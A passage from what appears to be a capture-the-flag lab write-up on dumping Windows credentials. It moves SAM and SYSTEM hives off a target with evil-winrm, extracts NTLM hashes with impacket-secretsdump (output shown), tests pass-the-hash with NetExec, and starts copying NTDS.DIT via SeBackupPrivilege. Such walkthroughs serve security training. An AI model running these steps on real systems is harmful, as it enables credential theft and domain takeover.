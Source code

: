 Then we can move the files using the download command in evil-winrm:
```shell
cd C:\Windows\Temp
download SAM
download SYSTEM
```

And dump them in our Kali locally:
```shell
impacket-secretsdump -sam SAM -system SYSTEM local
```

```shellImpacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Once we got the Administrator hash, we can use NetExec to test if it's valid:
```shell
nxc winrm 10.129.191.43 -u Administrator -H 67ef902eae0d740df6257f273de75051
nxc winrm 10.129.191.43 -u Administrator -H 67ef902eae0d740df6257f273de75051 --local-auth
```
NetExec didn't give us any positive results. We can't use the hash from the SAM dump to get access.

But we can abuse SeBackupPrivilege enabled to dump the NTDS.DIT file as well, which is the equivalent of SAM in a domain controller.
```shell


```
## Abusing SeBackupPrivilege as svc_backup to NTDS.DIT with diskshadow.exe
If we just try to dump NTDS.DIT, we will get the error message that it is being used by another process:
```shell
robocopy /b C:\Windows\NTDS C:\Profiles NTDS.DIT
```

```shell


-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Sunday, November 3, 2024 4:10:24 PM
   Source : C:\Windows\NTDS\
     Dest : C:\Profiles\

    Files : NTDS.DIT

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           1    C:\Windows\NTDS\
            New File              18.0 m        ntds.dit
2024/11/03 16:10:24 ERROR 32 (0x00000020) Copying File C:\Windows\NTDS\ntds.dit
The process cannot access the file because it is being used by another process.
```
